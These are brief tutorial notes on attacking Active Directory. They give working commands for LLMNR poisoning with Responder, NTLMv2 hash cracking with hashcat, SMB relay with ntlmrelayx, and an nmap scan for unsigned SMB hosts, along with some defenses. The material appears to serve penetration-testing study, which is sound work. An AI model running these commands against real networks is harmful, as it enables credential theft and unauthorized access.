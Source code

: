 # ACTIVE DIRECTORY

Directory services developed by Microsoft to manage windows domain networks.

Stores information related objects, such as Computers, Users, Printers etc. (Acts like a phonebook for Windows)

Authenticates using kerberos - Non-windows devices such as Linux machines, firewalls etc. can also authenticate to Active Directory via RADIUS or LDAP


# ATTACKING ACTIVE DIRECTORY 
First we need to find our way into the network through abusing features of windows.

**1---LLMNR POISONING**

LINK LOCAL MULTICAST & NAME RESOLUTION - used to Identify hosts when DNS fails to do so.

Previously known as NBT_NS.

Key flaw is that the services utilize a user's username and NTLMV2 hash when appropriately responded to.

We will use a tool called `Responder`

`python Responder.py -I tun0 -rdw -V`

Run the tool and wait for connection :

STEPS:
- Run Responder
- An Event occurs
- Get some hashes
- Crack the hashes 

**Capturing NTLMV2 Hashes with Responder**

 `responder -I eth0 -rdwv`
 
 **Password cracking with Hashcats**
 
 copy and paste the hashes collected:
 
 `gedit hashes.txt`
 
 paste the hashes and save
 
 `hashcat -m 5600 hashes.txt rockyou.txt --force`
 
 **LLMNR Poisoning defenses**
 
 Best defense is to disable LLMNR & NBT-NS
 if you have to use or cannot disable LLMNR/NBT-NS;
 
 - Enable Network Access Control
 - Use Strong User Password

**2---SMB RELAY ATTACKS**

SMB signing is a packet level protocol.
Instead of cracking hashes gathered with Responder, we can instead relay these hashes to specific machines and potentially gain access.

Requirements:

- SMB signing must be disabled on the target.
- Relayed user credentials must be admin on machine.

Run Responder:

`gedit Responder.conf` - Turn off SMB & HTTP

`python Responder.py -I tun0 -rdw -v`

Set up your relay:

`python ntlmrelayx.py -tf targets.txt -smb2support`

NTLM relay x takes the relay, it passes it to a target file specified.

**Discovery Hosts with SMB Signing Disabled**
Using nmap to do a quick check:

`nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24`
